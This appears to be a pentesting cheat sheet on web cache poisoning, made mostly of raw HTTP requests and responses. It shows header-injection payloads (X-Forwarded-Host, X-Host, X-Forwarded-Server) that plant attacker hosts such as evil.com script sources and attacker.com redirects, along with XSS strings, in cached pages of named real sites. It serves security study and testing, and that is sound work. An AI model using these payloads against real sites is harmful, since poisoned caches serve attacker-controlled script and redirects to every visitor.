 # Web Cache Poisoning
## **Introduction**
The objective of web cache poisoning is to send a request that causes a harmful response that gets saved in the cache and served to other users.

https://book.hacktricks.xyz/pentesting-web/cache-deception

https://infosecwriteups.com/cache-poisoning-with-xss-a-peculiar-case-eb5973850814

https://owasp.org/www-community/attacks/Cache_Poisoning



## **How to Find**
1. Basic poisoning
```
GET / HTTP/1.1
Host: www.vuln.com
X-Forwarded-Host: evil.com
```
The response is
```
HTTP/1.1 200 OK
Cache-Control: public, no-cache
…
<img href="https://evil.com/a.png" />
```
> Or you can input XSS payloads
```
GET / HTTP/1.1
Host: www.vuln.com
X-Forwarded-Host: a.\"><script>alert(1)</script>
```
The response is
```
HTTP/1.1 200 OK
Cache-Control: public, no-cache
…
<img href="https://a.\"><script>alert(1)</script>a.png" />
```
2. Seizing the Cache
```
GET / HTTP/1.1
Host: unity3d.com
X-Host: evil.com
```
The response is
```
HTTP/1.1 200 OK
Via: 1.1 varnish-v4
Age: 174
Cache-Control: public, max-age=1800
…
<script src="https://evil.com/x.js">
</script>
```
3. Selective poisoning
```
GET / HTTP/1.1
Host: redacted.com
User-Agent: Mozilla/5.0 (<snip> Firefox/60.0)
X-Forwarded-Host: a"><iframe onload=alert(1)>
```
The response is
```
HTTP/1.1 200 OK
X-Served-By: cache-lhr6335-LHR
Vary: User-Agent, Accept-Encoding
…
<link rel="canonical" href="https://a">a<iframe onload=alert(1)>
```
4. Chaining Unkeyed Inputs 
- First step
```
GET /en HTTP/1.1
Host: redacted.net
X-Forwarded-Host: xyz
```
The response is
```
HTTP/1.1 200 OK
Set-Cookie: locale=en; domain=xyz
```
- Second step
```
GET /en HTTP/1.1
Host: redacted.net
X-Forwarded-Scheme: nothttps
```
The response is
```
HTTP/1.1 301 Moved Permanently
Location: https://redacted.net
```
- Third step
```
GET /en HTTP/1.1
Host: redacted.net
X-Forwarded-Host: attacker.com
X-Forwarded-Scheme: nothttps
```
The response is
```
HTTP/1.1 301 Moved Permanently
Location: https://attacker.com/en
```

5. Route Poisoning
```
GET / HTTP/1.1
Host: www.goodhire.com
X-Forwarded-Server: evil
```
The response is
```
HTTP/1.1 404 Not Found
CF-Cache-Status: MISS
...
<title>HubSpot - Page not found</title>
<p>The domain canary does not exist in our system.</p>
```
To exploit this, we
need to go to hubspot.com, register ourselves as a HubSpot client, place a payload on our HubSpot page, and
then finally trick HubSpot into serving this response on goodhire.com
```
GET / HTTP/1.1
Host: www.goodhire.com
X-Forwarded-Host: portswigger-labs-4223616.hs-sites.com
```
The response is
```
HTTP/1.1 200 OK
…
<script>alert(document.domain)</script>
```

6. Hidden Route Poisoning
```
GET / HTTP/1.1
Host: blog.cloudflare.com
X-Forwarded-Host: evil
```
The response is
```
HTTP/1.1 302 Found
Location: https://ghost.org/fail/
```
When a user first registers a blog with Ghost, it issues them with a unique subdomain under ghost.io. Once a
blog is up and running, the user can define an arbitrary custom domain like blog.cloudflare.com. If a user has
defined a custom domain, their ghost.io subdomain will simply redirect to it:
```
GET / HTTP/1.1
Host: blog.cloudflare.com
X-Forwarded-Host: noshandnibble.ghost.io
```
The response is
```
HTTP/1.1 302 Found
Location: http://noshandnibble.blog/
```

Reference:
- [Portswigger](https://portswigger.net/research/practical-web-cache-poisoning)

